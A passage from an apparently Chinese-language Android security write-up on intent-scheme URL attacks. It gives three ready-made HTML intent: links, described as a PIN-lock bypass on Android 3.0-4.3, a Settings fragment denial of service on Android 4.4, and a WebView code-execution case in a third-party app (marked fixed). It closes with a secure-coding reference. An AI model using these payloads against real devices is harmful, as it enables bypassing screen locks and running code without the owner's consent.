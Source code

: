 Fragment这里只提一下，以后可能另写一篇。

<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
16、bypass Pin android 3.0-4.3 （selector）
</a><br>


<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
17、fragment dos android 4.4 (selector)
</a><br>


案例7:webview RCE

<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
15、驴妈妈代码执行（fixed）
</a><br>

0x06 参考
http://www.jssec.org/dl/android_securecoding_en.pdf